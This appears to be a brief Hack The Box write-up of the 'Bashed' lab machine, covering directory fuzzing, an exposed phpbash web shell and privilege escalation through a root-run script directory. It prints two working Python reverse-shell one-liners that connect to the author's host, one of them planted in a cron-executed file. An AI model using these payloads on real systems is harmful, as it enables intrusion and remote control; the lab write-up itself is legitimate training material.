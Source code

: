 Bahed - HTB Writeup 
[top](images/bashed/top-bash.png)
The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   
[fuzz](images/bashed/fuzzz-bash.png)
[bash](images/bashed/phpbash-bash.png)
Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

[user](images/bashed/user-bash.png)
After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.
So i became one.
[scriptm](images/bashed/scriptmanager-bashed.png)
Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.
So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a neew session running as root.
echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py
